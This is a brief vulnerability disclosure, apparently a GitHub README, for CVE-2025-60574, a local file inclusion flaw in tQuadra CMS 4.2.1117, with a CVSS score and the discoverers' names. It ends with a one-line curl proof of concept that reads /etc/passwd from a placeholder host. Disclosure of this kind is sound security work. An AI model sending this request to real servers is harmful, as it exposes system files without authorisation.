

# Vulnerability Discoverers & Exploit Authors

Stefano Andreatta & Jacopo Candido Augelli

---

# CVE-2025-60574

## Vulnerability Description

A Local File Inclusion (LFI) vulnerability has been identified in tQuadra CMS 4.2.1117. The issue exists in the "/styles/" path, which fails to properly sanitize user-supplied input. An attacker can exploit this by sending a crafted GET request to retrieve arbitrary files from the underlying system.

Discoverers: Stefano Andreatta & Jacopo Candido Augelli

## CVSS 3.1 - 7.5 High

```
CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
```

## Proof of Concept

```bash
curl -s https://vulnerable.site.com/styles//etc/passwd --output - | gunzip
```

